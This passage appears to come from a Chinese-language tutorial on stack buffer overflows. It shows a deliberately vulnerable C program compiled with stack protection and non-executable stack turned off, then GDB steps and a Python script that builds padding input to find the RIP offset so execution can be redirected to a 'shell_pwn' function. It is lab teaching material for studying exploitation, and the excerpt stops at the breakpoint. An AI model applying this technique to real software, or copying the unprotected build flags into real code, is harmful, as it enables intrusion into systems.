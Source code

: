 ```
 void main (int argc, char *argv[])
 {
     int local_variable = 1;
     copytobuffer(argv[1]);
     exit(0);
 }
```

而且，这里`shell_pwn`永远不会被执行，因为我们从未在这里调用过它，但现在我们知道如何执行它。首先，让我们编译它：

```
 $ gcc -fno-stack-protector -z execstack exec.c -o exec
```

然后，在 GDB 中打开我们的代码：

```
$ gdb ./exec
```

然后在`main`函数处设置断点：

```
$ break main
```

好的，现在让我们准备利用漏洞来确认 RIP 寄存器的准确位置：

```
#!/usr/bin/python

 buffer = ''
 buffer += 'a'*24
 buffer += 'b'*6
 f = open("input.txt", "w")
 f.write(buffer)
```

然后，执行我们的攻击：

```
$ ./exploit.py
```

现在，从 GDB 运行以下命令：

```
$ run $(cat input.txt)
```

然后，它将在`main`函数处命中断点：
